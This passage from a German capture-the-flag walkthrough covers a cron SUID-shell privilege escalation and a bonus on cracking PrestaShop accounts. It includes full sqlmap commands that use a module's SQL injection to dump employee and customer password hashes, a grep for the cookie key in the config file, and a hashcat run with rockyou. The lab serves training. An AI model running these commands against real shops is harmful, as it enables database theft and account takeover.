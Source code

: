 #4	PrivEsc via Cron	SUID-Shell /tmp/rootbash; dann cat /root/flag4.txt

## Viel Erfolg beim CTF!


# BONUS
## Knacken von Mitarbeiter und Kunden Accounts

PrestaShop 1.5 speichert das Passwort in der Datenbank als folgenden Hash:

    MD5( _COOKIE_KEY_ + KlartextPasswort )

Dabei kann man durch die SQL Injection mit SQLMap die Kunden oder Mitarbeitertabelle dumpen:

    sqlmap \
    -u "http://localhost:8080/index.php?fc=module&module=ndk_steppingpack&controller=quote&product_id=1" \
    -p product_id \
    --batch \
    --dbms=mysql \
    -D cubecart \
    -T prefix2_0employee \
    -C email,passwd \
    --where "active=1" \
    --dump
 
bzw 

    sqlmap \
    -u "http://localhost:8080/index.php?fc=module&module=ndk_steppingpack&controller=quote&product_id=1" \
    -p product_id \
    --batch \
    --dbms=mysql \
    -D cubecart \
    -T prefix2_0customer \
    -C email,passwd \
    --where "active=1" \
    --dump


Der Cookiekey wird in der config/settings.inc.php abgelegt. Über SSH Zugriff kommt man an diesen ebenfalls ran:

    grep "_COOKIE_KEY_" /var/www/html/config/settings.inc.php

Dann muss man nur noch eine TXT mit den Hashpaaren erstellen:

    <hash>:<cookie_key>

z.B.

    8435a9aa1b345cbfdde930ae2153b873:oKgrQhBqLgjkUfx8d2vvCXNxKZCGF1XeKMa5wBub46S7tJH9jpDFe4Cn

diesen kann man dann in Kali linux z.B. mit Hashcat bruteforcen

    hashcat -m 20 salted_hash.txt /usr/share/wordlists/rockyou.txt

